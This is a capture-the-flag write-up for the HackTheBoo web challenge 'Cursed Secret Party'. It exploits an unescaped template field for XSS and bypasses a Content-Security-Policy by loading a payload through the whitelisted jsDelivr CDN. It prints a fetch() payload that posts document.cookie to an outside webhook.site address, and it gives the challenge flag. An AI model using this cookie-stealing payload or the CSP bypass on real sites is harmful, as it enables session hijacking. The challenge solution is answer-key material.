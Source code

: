 # HackTheBoo - Cursed Secret Party

* **Category:** Web
* **Points:** 200
* **Authors:** Xclow3n, Rayhan0x01, Maklaris

## Challenge

> You've just received an invitation to a party. Authorities have reported that the party is cursed, and the guests are trapped in a never-ending unsolvable murder mystery party. Can you investigate further and try to save everyone?

## Solution

![image](https://user-images.githubusercontent.com/78451563/198380053-3137cbf4-09b1-4b9b-84e4-7d3a6e3e13c2.png)

* This looks like a typical xss challenge where we steal the admin's cookie via xss
* The template tag `{{ request.halloween_name |safe }}` is susceptible to xss as `| safe` filter indicates that the value is known to be safe and therefore does not need to be escaped thus returns unescaped HTML to the client.

```node
// ./challenge/index.js
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        `script-src 'self' https://cdn.jsdelivr.net ;
        style-src 'self' https://fonts.googleapis.com;
        img-src 'self';
        font-src 'self' https://fonts.gstatic.com;
        child-src 'self';
        frame-src 'self';
        worker-src 'self';
        frame-ancestors 'self';
        form-action 'self';
        base-uri 'self';
        manifest-src 'self'`
    );
    next();
});
```

![image](https://user-images.githubusercontent.com/78451563/198380965-2bd68456-89fb-4457-80b3-3e4130d4aea7.png)

*We are hinted that the challenge will involve something todo with CSP from the name (Cursed Secret Party)(CSP)*
* We can do a quick evaluation of how secure the CSP is using:
[CSP Evaulator](https://csp-evaluator.withgoogle.com/)
* The results show that `script-src` is problematic as the host whitelists can frequently be bypassed and `cdn.jsdelivr.net is known to host JSONP endpoints and Angular libraries which allow to bypass this CSP.`

### Bypassing CSP
```js
//xss_poc.js
fetch('https://webhook.site/951a8069-3beb-48d5-a21f-99d73d3c95c7', {
method: 'POST',
mode: 'no-cors',
body: document.cookie
});
```
```
https://github.com/0xEspxrance/CTF-Writeups/blob/main/HackTheBoo/web/xss_poc.js
--> https://www.jsdelivr.com/github -->
https://cdn.jsdelivr.net/gh/0xEspxrance/CTF-Writeups@main/HackTheBoo/web/xss_poc.js
```
![image](https://user-images.githubusercontent.com/78451563/198390669-80770140-5c04-41fa-b236-6df60c761c3a.png)


* We can upload a js file onto our github and convert to a jsdeliver package using [this](https://www.jsdelivr.com/package/npm/csp-bypass) which will bypass CSP as `https://cdn.jsdelivr.net` is whitelisted.
* Then send the payload in the field `halloween_name`

![image](https://user-images.githubusercontent.com/78451563/198391082-7ad9405a-ab45-42a3-88b2-85a7ce0dae10.png)


```
Flag: HTB{cdn_c4n_byp4ss_c5p!!}
```
